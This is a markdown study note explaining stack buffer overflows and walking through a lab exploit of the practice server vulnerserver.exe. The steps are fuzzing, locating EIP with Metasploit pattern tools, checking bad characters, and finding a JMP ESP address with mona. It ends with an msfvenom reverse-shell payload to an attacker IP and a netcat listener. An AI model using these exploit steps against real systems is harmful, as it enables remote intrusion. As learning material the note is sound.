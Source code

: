 # basics

![Buffer Overflow](img/x86Memory.png)

## Stack
* When a tread is running it execute code form the progam image or the DDLs.
* The thread requieres short term data areas for functions, variable, program control information => stack.
* Each threat has its own stack
* LIFO (push/pop)

## Function return mechanics
When code wihting a thread calls a function is must know on which address to return to once the function is completed

Example of return mechanics (stored in a section of stack called stack frame):
| Thread stack frame example|
| ------------- |
| Function A return address: 0x00401024 |
| Parameter 1 for Function A: 0x000000040|
| Parameter 2 for Function A: 0x000001000|

# CPU registers
Small high speed cpu storage locations
* Different registers exists from 32-bit to 8 bits

Most imporant registers (32-bit):
* EAX: for aritmecical and logic instrucations
* EBX: base pointer for memory addresses
* ECX: Loop, shift and rotation counter
* EDX: I/O Port addressing, division, multiplication
* ESI: Pointer of data and source 
* EDi: Pointer of data nd desination in string copy operations

* ESP stack pointer (keeps track of most receent reference locations by stack)
* EBP base pointer (stores a pointer to the top of the sack when a funciton is called)
* EIP always points to the next code instrucation to be executed

# sample volnurable code (C)
//what happens when buffer.length greater than 64? => buffer overflow; overflowing its reserved boundaries
``char buffer[64]; strcpy(buffer, argv[1]);``


# windows
## immunity debugger 
* Open file exe
* Then you can start debugging

## example vulnserver.exe (TCP server)
with nc you can setup a connection to vulnserver to check it

* but kill nc it and run the script ``bufferOverflowHelper.py`` and will hopefully result in something like ``Fuzzing crashed at 22105 bytes``
* Also we see in the immunulty debugger that EIP has been overridding and that it is failing

### detect location of EIP

* to detect location use: ``/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 24105``
* will generate a text and pass this into the ``bufferOverflowHelper.py``
* in immuniaty debugger save the EIP hex, f.i: ``386F4337``
* again with metasploit detect in which location the value is ``/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 24105 -q 386F4337``
* This will geneate the location: ``Exact match at offset 2003`` which means that EIP starts at *2003*

### override EIP
* in your python file substitute buffer where EIP starts (in our case *2003*) with ``buffer = "A" * 2003 + "B" * 4``
* when running the script we will set that EIP is ``42424242`` => BBBB
* Search for badchars in Google, leads to: https://github.com/mrinalpande/scripts/blob/master/python/badchars
* copy this bad chars in your python script and delete 00 && X70 put it in ``badchars`` variable
* buffer variable should look like ``buffer = "A" * 2003 + "B" * 4 + badchars`` 

### check hexdumb of ESP for bad chars
*We have to take the missing chars in the hex dump (Bad chars) out of the shell code for later!*
* check hexdumb of ESP (mark ESP Hex => right click => follow in dump)
(Hexdump) [img/bufferOverflowHexDumpESP.png]
* Check fump for missing chars, f.e.: : ``11 12 B0 14`` => 13 is missing and would be a bad char

### looking for DLL which has no protection (with Monamodules)
Some DLLs have protection against buffer overflow so we need to finds DLLs which do not have it.
* Download monamodule from github: (Mona)[https://github.com/corelan/mona]
* Paste mona.py file under: ``D:\Immunity Debugger\PyCommands``
* In immunuty debugger writh (text field in the lower left corner): ``!mona modules`` and hit enter
* We then see protection settings for certain dlls (check for everything false and attached to the program), in our examlpe: ``essfunc.dll``

### locate JMP commands
Pointer will jump to our malicuous shell code
* type ``locate nasm_shell``
* Call then the path: /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb 
* Type ``JMP ESP`` and it will generate the hashcode equivalend of it: ``FFE4``
* In immunity debugger type in the lower left corner: ``!mona find -s "\xff\xe4" -m essfunc.dll`` => remember: \x *ff* \x *e4*
* Generates: ``\xff\xe4 & 0x625011af``
* In our script we write in reverse order ``buffer = "A" * 2003 + "\xaf\x11\x50\x62"``
* In immunity debugger debug (lclick on most right symbol, in line with the play button) and enter: ``625011af``
* We are overridding the EIP with our command, you will see the hash code 625011af

### gaining shell
Will generate some shell code for reverse shell
// -b including bad chars if we detected some
type with ip of the "acker": ``msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.9 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"``
* Copy this into our python file as overflow variable like: ``buffer = "A" * 2003 + "B" * 4 + "\xaf\x11\x50\x62" + overflow``
* Add naf space to variable (play a bit around with the size: "\x90" * 8) ``buffer = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 8 +  overflow``=> example bufferOverflowHelperFinal.py
* Start netcat on linux by listening on port 4444
* Run applicatino in admin mode and execute script
* Reverse shell established